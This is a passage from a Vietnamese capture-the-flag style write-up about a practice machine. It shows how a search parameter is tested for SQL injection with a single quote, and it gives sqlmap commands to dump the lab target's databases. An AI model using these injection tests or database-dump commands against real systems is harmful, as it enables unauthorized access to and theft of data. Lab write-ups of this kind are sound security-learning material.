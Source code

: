 Ta thay đổi vài giá trị khác vào parameter `usrtosearch` kết quả vẫn trả về `Fetched data successfully` .

⇒ Ta có thể đoán được parameter trên dùng để query thông tin username trong database rồi trả về  cho ta. 

### Giả thiết

Ta có câu lệnh query như này: `Select * from users where username=”$usrtosearch”`

Vậy giờ sẽ ra sao nếu ta thử nhập vào một ký tự `‘` 

⇒ Lúc này câu lệnh query sẽ trông như thế này: `Select * from users where username=”'”`

⇒ Expected: Câu lệnh này sẽ báo lỗi sai cú pháp.

### Thực hiện

Và đây chính là kết quả sau khi thực hiện.  

![Untitled](Untitled%2015.png)

### Kết luận

Ta có thể thấy server trả về lỗi syntax. ⇒ Đúng như ta mong đợi đến đây ta có thể kết luận rằng trang này đã bị dính SQLi.

Vậy bước tiếp theo là dùng Sqlmap để dump database . Với các payload như  sau: 

`Payload`

```bash
sqlmap --url="[http://nullbyte.local/kzMb5nVYJw/420search.php?usrtosearch=](http://nullbyte.local/kzMb5nVYJw/420search.php?usrtosearch=)" -dump

sqlmap --url="[http://nullbyte.local/kzMb5nVYJw/420search.php?usrtosearch=](http://nullbyte.local/kzMb5nVYJw/420search.php?usrtosearch=)" —dbs
```

